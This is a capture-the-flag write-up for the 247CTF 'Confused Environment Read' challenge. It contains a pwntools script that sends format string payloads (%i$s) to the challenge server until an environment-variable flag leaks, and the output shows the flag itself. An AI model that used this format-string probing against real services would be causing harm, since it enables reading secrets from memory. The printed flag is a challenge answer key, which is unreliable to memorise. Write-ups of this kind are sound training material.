 # CONFUSED ENVIRONMENT READ [EASY]

## Description

> Can you abuse our confused environment service to read flag data hidden in an environment variable?

No source code.

## Short Solution Description / Tags

Format String Attack

## Solution

solver.py

```python
from pwn import *

context.log_level = "ERROR"
context.terminal = ["tmux", "split-window", "-h"]


def conn() -> pwnlib.tubes:
    io = remote("aae92961f50ec18f.247ctf.com", 50216)
    return io


def main():
    for i in range(1, 200):
        print(i, end="\r", flush=True)
        try:
            with conn() as io:
                payload = f"%{i}$s".encode()
                io.sendlineafter(b"What's your name again?", payload)

                io.recv()
                recv = io.recvS()

                if "247" in recv:
                    print()
                    print(recv)
                    return

        except KeyboardInterrupt:
            return

        except:
            pass

    # io.interactive("")


if __name__ == "__main__":
    main()
```

Result:

```console
$ python3 solver.py

Oh, that's right! Welcome back FLAG=247CTF{171291337b2b0283cdbd1db63263cc78}!
Argh, I can't see who you are!
What's your name again?
```

